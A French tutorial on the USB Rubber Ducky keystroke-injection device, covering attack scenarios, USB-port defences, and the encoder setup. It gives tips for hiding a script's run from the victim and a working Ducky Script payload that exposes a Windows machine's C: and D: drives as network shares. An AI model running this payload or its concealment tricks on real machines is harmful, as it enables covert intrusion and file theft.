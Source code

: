 ```yaml
---
title: Rubber Ducky
type: WIKI
categories:
  - system
  - security
description: Configuration d'un équipement Rubber Ducky.
author: Flavien PERIER <perier@flavien.io>
date: 2021-10-31 18:00
---
```


Je tiens avant toute chose à préciser que cet article est rédigé uniquement à but pédagogique. Je n'ai jamais projeté d'attaquer quelque entreprise que ce soit. Si vos intentions en vous rendant sur ce site sont malveillantes je vous invite à consulter [l'article 323-1 du Code pénal](https://www.legifrance.gouv.fr/codes/article_lc/LEGIARTI000030939438/) qui stipule que les intrusions dans un système informatique peuvent vous couter jusqu'a deux ans d'emprisonnement et 60 000 € d'amende. Cela étant dit, je décline toute responsabilité de ce que vous ferez du contenu de cet article.

La [Rubber Ducky](https://www.usbrubberducky.com/) est un dispositif d'attaque physique vendu par [Hak5](https://hak5.org/). Extérieurement, elle ressemble à une vulgaire clé USB. Cependant, une fois connectée à un ordinateur elle est reconnue comme un clavier et va pouvoir exécuter une série d'instructions prédéfinie par l'attaquant.

![USB Rubber Ducky](https://medias.flavien.io/articles/rubber-ducky/rubber-ducky.webp)

## Avantage de la conception

Le principal avantage de la Rubber Ducky est qu'elle n'exploite pas des vulnérabilités logicielles, mais s'appuie sur la simulation du hardware d'un clavier physique. Le système d'exploitation n'a donc aucune façon de différencier ce périphérique de n'importe quel autre clavier. La Rubber Ducky est donc complètement indétectable par les antivirus. 

## Vecteurs d'attaque

Il existe de nombreux scénarios d'attaque imaginables avec ce type d'appareil. En voici deux petits exemples :

- Dans le cas où un hacker arriverait à pénétrer physiquement dans les locaux d'une entreprise, ce type d'équipement pourrait lui permettre de gagner du temps dans le cas ou il trouverait, un pc déverrouillé. Il lui suffit de brancher la Rubber Ducky et d'attendre que le script se déroule (généralement seulement quelques secondes).

- Autres scénarios où le hacker n'arriverait pas à accéder aux locaux, il serait envisageable d'abandonner le dispositif dans un lieu fréquenté par les employés de cette entreprise (comme par exemple le parking de l'entreprise). Dans la plupart des cas, la personne qui va trouver le dispositif va le brancher afin de visualiser son contenu. Erreur qui pourrait être fatale et permettre au hacker de s'infiltrer dans le réseau d'une entreprise sans même avoir à y accéder physiquement.

## Comment s'en défendre

Comme nous l'avons vu, une attaque effectuée par une Rubber Ducky est indétectable par nos antivirus. Pour s'en défendre, il faut donc une approche qui ne soit pas logiciel.

La plupart des entreprises interdisent à leurs employés de connecter des clés USB à leurs ordinateurs, mais ne les empêchent pas non plus de le faire... Conclusion, ils ne se privent pas.

Il existe de nombreuses sociétés commercialisant des dispositifs permettant de bloquer l'accès à un port USB comme par exemple, [Lindy](https://lindy.com/fr/technologie/bloqueurs-de-ports/). Ce type de protection permet d'éviter qu'un employé ou un attaquant connecte un périphérique USB non désiré. D'autres, plus extrémistes, détruisent tout simplement les ports USB non utilisés (ce qui est dommage à mon sens quand on peut simplement les verrouiller). Il reste cependant un certain nombre de ports USB qu'on ne peut pas condamner, car utilisés (clavier, souris, webcam...). Si aucun port n'est libre, il est assez peu probable qu'un employé prenne le temps de débrancher un périphérique dont il a besoin afin de connecter la clé USB qu'il vient de trouver. Cependant cela ne va très certainement pas arrêter un hacker s'il en a le temps. Une solution pourrait consister à souder les périphériques branchés au châssis.

Il est cependant évident qu'il n'est pas forcément nécessaire d'en arriver là. Cela dépend de la criticité des informations auxquelles l'employé a accès et du réseau sur lequel il se trouve.

## Comment s'en servir

La première étape consiste à démonter la Rubber Ducky. À l'intérieur ce trouve une carte micros-sd c'est sur cette dernière que nous allons travaillé et pouvoir déposer notre payload.

### Installation de l'environnement

Le langage de la Rubber Ducky (le [Ducky Script](https://docs.hak5.org/hc/en-us/articles/360049449314-Ducky-Script-Command-Reference)) est compilé. Il faut donc utiliser un logiciel afin de transformer notre code en instruction compris par notre équipement.

Il est possible d'utiliser [le compiler en ligne proposée par Hak5](https://shop.hak5.org/pages/ducky-encoder) ou d'installer directement [l'outil java en ligne de commande](https://github.com/hak5darren/USB-Rubber-Ducky/releases/download/v2.6.3/encoder.jar).

Pour utiliser l'outil, il suffit d'utiliser la ligne de commande suivante :

```bash
java -jar encoder.jar -l fr -i script.txt -o inject.bin 
```

Une fois notre code compilé d'une façon ou d'une autre, il suffit de le mettre à la racine de la carte avec le nom `inject.bin`.

### Quelques exemples de scripts

Il existe plusieurs sites qui proposent des scripts déjà tout fait. Il est intéréssent de passer par la afin de s'en inspirer :

- [GitHub de Hak5](https://github.com/hak5/usbrubberducky-payloads)
- [Hacktoday](https://thehacktoday.com/60-best-rubber-ducky-usb-payloads/)

#### Quelques conseils

- Toujours essayer de faire passer le script sur une unique ligne chainer avec des `&&` des `||` et des `;`. Cela permet de débrancher la clé USB au plus tôt. En effet une fois la ligne tapée et lancée, le payload va poursuivre son exécution même si l'on débranche la clé.

- Sur Windows, préférez l'utilisation de CMD à PowerShell (si on utilise des instructions PowerShell, les exécuter depuis le CMD). La raison est que CMD démarre beaucoup plus rapidement et que par extension, notre script à moins de chance de commencer à écrire avant que le terminal soit chargé.

- Bien penser à commencer le script par `color fe`. Cela va passer la couleur de CMD en Jaune claire sur blanc (rendant le déroulement illisible par un humain). Le temps que l'utilisateur comprenne ce qui se passe, il sera déjà trop tard.

- Terminer le script par un exit afin de fermer le terminal après le méfait et donc passer plus facilement inaperçu.

#### Partage des disques dur sur le réseau

Un premier petit payload, qui est en réalité assez inoffensif pour les entreprises dans la mesure ou le script demande un accès administrateur (qui n'est en général pas offert aux employés).

Le but est ici de transformer les disques `C:` et `D:` d'un Windows en lecteurs réseaux. L'attaquant n'aura par la suite qu'à récupérer les fichiers qu'ils contiennent. Cela implique cependant que l'attaquant ait accès au réseau et connaisse l'IP de ça vctime.

```txt
REM Flavien PERIER <perier@flavien.io>
DEFAULT_DELAY 300

DELAY 1000
GUI r
STRING cmd
CTRL-SHIFT ENTER
DELAY 700
TAB
TAB
ENTER

STRING color fe && powershell "New-SmbShare -Name C -Path C:\ -FullAccess administrateur ; New-SmbShare -Name D -Path D:\ -FullAccess administrateur" || exit
ENTER
```
